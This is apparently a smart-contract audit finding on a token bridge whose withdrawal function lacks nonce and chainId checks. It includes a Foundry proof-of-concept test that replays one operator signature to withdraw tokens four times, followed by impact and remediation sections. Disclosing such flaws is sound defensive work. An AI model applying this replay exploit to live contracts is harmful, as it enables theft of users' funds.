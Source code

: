 ## Vulnerability Details
The `sendToL1` and `withdrawTokensToL1` function allows for the withdrawal of tokens from `L2` to `L1` based on a provided signature. However, the lack of nonce verification exposes the contract to replay attacks. The proof of concept illustrates how an attacker, having successfully withdrawn tokens once, can reuse the same valid signature to execute the function multiple times. This results in the unauthorized withdrawal of tokens, as the contract does not validate whether the same signature has been used before.

## Proof of Concept
```
function testMultyCallWithSameSignature() public {
        uint256 depositAmount = 10e18;
        uint256 withdrawAmount = 1e18;

        // User deposit tokens on L1
        vm.startPrank(user);
        token.approve(address(tokenBridge), depositAmount);
        tokenBridge.depositTokensToL2(user, userInL2, depositAmount);
        vm.stopPrank();

        // Operator sing the message to withdraw tokens
        bytes memory message = _getTokenWithdrawalMessage(hacker, withdrawAmount);
        (uint8 v, bytes32 r, bytes32 s) = _signMessage(message, operator.key);

        // Hacker can withdraw tokens multiple times with the same signature
        vm.startPrank(hacker);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        tokenBridge.withdrawTokensToL1(hacker, withdrawAmount, v, r, s);
        vm.startPrank(hacker);

        assertEq(token.balanceOf(hacker), (withdrawAmount * 4));
}
```
## Impact
The impact of this vulnerability is severe, as it allows an attacker to repeatedly execute token withdrawals with the same signature, potentially draining the contract's token balance and causing financial harm.

## Tools Used
- Manual review
- Foundry

## Recommendations
Implement Nonce Verification: Introduce a nonce parameter in the function signature and maintain a nonce registry for each signer. Ensure that the provided nonce is greater than the previously used nonce for the same signer. Also, to prevent the same signature from being used between `L1` and `L2`, it is recommended to add the `chainId` parameter within the signature.
